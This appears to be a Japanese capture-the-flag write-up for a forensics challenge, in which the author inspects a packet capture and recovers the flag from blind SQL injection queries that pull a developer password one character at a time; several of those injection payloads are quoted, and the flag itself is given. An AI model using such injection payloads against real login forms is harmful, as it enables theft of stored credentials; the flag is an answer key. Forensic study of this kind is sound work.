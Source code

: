 # Pain in the ass:Forensics:181pts
It looks like someone dumped our database. Please help us know what has been leaked ...  
[pain-in-the-ass.pcapng](pain-in-the-ass.pcapng)  

# Solution
pcapngなのでWiresharkで解析するが何も見当たらない。  
どうやらSQLインジェクションを試しているようだが、ペイロードもアルファベット順に試行されており、ユーザーネームもd4rk2phiと変わった点は見られない。  
stringsを行うと以下のような記述が見られた。  
```text
th3_fl4g_1s_n0t_h3r3
h3r3_1s_n0t_th3_fl4g
l00k1ng_f0r_34sy_p01nts
3rr0r_b4s3d_1s_s0_34sy
```
fl4gやb4s3dで文字列検索してやるとその上の部分のペイロードに含まれている一文字が以下のようになっていた。  
```text
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),1,1) = 's' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),2,1) = 'h' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),3,1) = 'k' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),4,1) = 'C' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),5,1) = 'T' and '1';
SELECT * FROM users WHERE username = 'd4rk2phi' AND password ='' or substr((SELECT dev_password FROM developpers LIMIT 1 OFFSET 0),6,1) = 'F' and '1';
~~~
```
これがflagであった。  

## shkCTF{4lm0st_h1dd3n_3xtr4ct10n_0e18e336adc8236a0452cd570f74542}